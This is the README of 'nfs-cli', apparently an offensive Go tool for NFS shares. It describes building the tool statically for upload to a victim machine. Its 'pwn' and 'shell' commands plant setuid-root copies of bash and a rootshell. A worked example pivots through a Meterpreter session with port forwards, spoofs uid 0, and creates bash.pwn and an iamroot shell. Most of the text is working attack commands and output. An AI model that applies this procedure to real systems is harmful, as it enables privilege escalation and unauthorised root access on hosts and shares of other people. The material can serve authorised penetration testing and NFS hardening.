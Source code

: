 # nfs-cli

Simple cli for nfs. No NFS permissions are bypassed or anything. This is not an exploit. You can set machine identifier, uid and gid though.

Also, just in case the permissions aren't all that great there are some nice pwn features available.

(And no, this doesn't work through a socks proxy, as go doesn't obey proxychains. Works fine with ligolo-ng though.)

It really shines when built static and uploaded to a victim machine, or when we have direct access to a NFS share.

## Usage
```sh
nfs-cli <rhost> <path> -u 0:0
```
Use `-h` for help.

Build static (for infil):
```sh
CGO_ENABLED=0 go build -a -ldflags '-extldflags "-static"' .
```

Pretty sure you need to use the `-u` switch if you are running this in Windows. Can't really see that working.

### Commands
Note: Don't include slashes in paths, this tool is pretty dumb.

- `attr [path]` - get attributes for filesystem object (can be used to determine the owner of the share)
- `ls` - list files i cwd
- `cd newdir` - change cwd
- `mkdir newdir` - create a directory (mode `06777`)
- `rmdir dir` - delete directory (and recursive)

- `cat file` - view file
- `b64get file` - download file "visually" in base64 format
- `get file` - download file

- `put file` - upload file (mode `06777`)
- `b64put file` - will prompt for base64 input and upload (mode `06777`)
- `type file` - allows for manual file upload (mode `06777`)
- `rm file` - delete file

- `pwn file` - copies `file` to `file.pwn` and sets mode `06777`
- `shell file` - creates a minimal rootshell (if allowed)

The suid-bit doesn't work unless you are root, not sure if this is nfs or the library.

## Example
Metasploit:
```
# we can't forward listening sockets
sudo systemctl stop portmap
sudo systemctl stop rpcbind.socket

sudo msfconsole -q   # 111 is privileged, see below for workaround
...
meterpreter > shell
Process XYZ created.
Channel ZYX created.
$ rpcinfo
   program vers proto   port  service
   ...
    100005    2   tcp  20048  mountd      <--this is the portnumber you want
   ...
$ exit
meterpreter > portfwd add -l 111 -L 0.0.0.0 -p 111 -r 127.0.0.1
meterpreter > portfwd add -l 2049 -L 0.0.0.0 -p 2049 -r 127.0.0.1
meterpreter > portfwd add -l 20048 -L 0.0.0.0 -p 20048 -r 127.0.0.1
```

Client:
```
./nfs-cli -u 0:0 localhost /home/james
/home/james$ ls
       0     0     0        0 | Mon Jan  1 00:00:00 0001  [.]
       0     0     0        0 | Mon Jan  1 00:00:00 0001  [..]
     755  1000  1000  1183448 | Mon Jan  9 23:12:03 2023  [bash]
/home/james$ pwn bash
/home/james$ ls
       0     0     0        0 | Mon Jan  1 00:00:00 0001  [.]
       0     0     0        0 | Mon Jan  1 00:00:00 0001  [..]
     755  1000  1000  1183448 | Mon Jan  9 23:12:03 2023  [bash]
    6777     0     0  1183448 | Mon Jan  9 23:13:49 2023  [bash.pwn]
/home/james$ shell iamroot
/home/james$ ls
       0     0     0        0 | Mon Jan  1 00:00:00 0001  [.]
       0     0     0        0 | Mon Jan  1 00:00:00 0001  [..]
     755  1000  1000  1183448 | Mon Jan  9 23:12:03 2023  [bash]
    6777     0     0  1183448 | Mon Jan  9 23:13:49 2023  [bash.pwn]
    6777     0     0      163 | Mon Jan  9 23:14:25 2023  [iamroot]
```

## Alternative usage (non-priv)
```
git clone https://github.com/go-nfs/nfsv3.git
cd nfsv3
# copy the go files here
# edit nfs/rpc/portmap.go and change PmapPort to 9111
go run . -h
```

Now it's possible to `portfwd add -l 9111 -L 0.0.0.0 -p 111 -r 127.0.0.1` instead. No need to run `msfconsole` as root.
